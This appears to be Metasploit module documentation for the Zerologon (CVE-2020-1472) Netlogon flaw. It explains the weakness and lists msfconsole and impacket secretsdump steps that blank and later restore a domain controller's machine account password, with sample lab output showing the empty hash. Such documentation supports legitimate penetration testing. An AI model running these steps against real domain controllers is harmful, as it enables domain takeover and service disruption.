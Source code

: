 ## Vulnerable Application
A vulnerability exists within the Netlogon authentication process where the security properties granted by AES are lost
due to an implementation flaw related to the use of a static initialization vector (IV). An attacker can leverage this
flaw to target an Active Directory Domain Controller and make repeated authentication attempts using NULL data fields
which will succeed every 1 in 256 tries (~0.4%). This module leverages the vulnerability to reset the machine account
password to an empty value, which will then allow the attacker to authenticate as the machine account. After
exploitation, it's important to restore this password to it's original value. Failure to do so can result in service
instability.

Before using this module and changing the Domain Controller's machine account password, it is **highly** recommended to
have [impacket](https://github.com/SecureAuthCorp/impacket) available to recover the original value for restoration. The
version of impacket must have been updated on or since September 15th, 2020 to incorporate the changes introduced in
commit [`78e8c8e4`](https://github.com/SecureAuthCorp/impacket/commit/78e8c8e41b3f163f1271a01ce3f2bf3bb880f687) which
altered the behavior of the `example/secretsdump.py` utility to display the plaintext value of the machine account
password. Users can use this value along with the `RESTORE` action provided by this module to restore the machine
account password to it's original value.

## Verification Steps

1. Exploit the vulnerability to set the machine account password to a blank value
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2020_1472_zerologon`
    1. Set the `RHOSTS` and `NBNAME` values
    1. Run the module and see that the password was set to a blank value
1. Recover the original machine account password using impacket and secretsdump
    1. Run `examples/secretsdump.py -no-pass NBNAME$@RHOST`
        * **Note:** The machine name (`NBNAME` from the module) must end with the dollar sign character (`$`)
    1. Search for the password in the output (`NBNAME$:plain_password_hex:`)
1. Restore the original machine account password
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2020_1472_zerologon`
    1. Set the action to `RESTORE`
    1. Set the `RHOSTS`, `NBNAME` and `PASSWORD` values
    1. Run the module and see that the original value was restored

## Options

### NBNAME

The NetBIOS name of the target domain controller. You can use the `auxiliary/scanner/netbios/nbname` module to obtain
this value.

## Scenarios

### Windows Server 2019

```
[*] 192.168.159.10:0 - Connecting to the endpoint mapper service...
[*] 192.168.159.10:49667 - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.10[49667] ...
[*] 192.168.159.10:49667 - Bound to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.10[49667] ...
[+] 192.168.159.10:49667 - Successfully authenticated
[+] 192.168.159.10:49667 - Successfully set the machine account (WIN-3MSP8K2LCGC$) password to: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 (empty)
[*] Auxiliary module execution completed
```
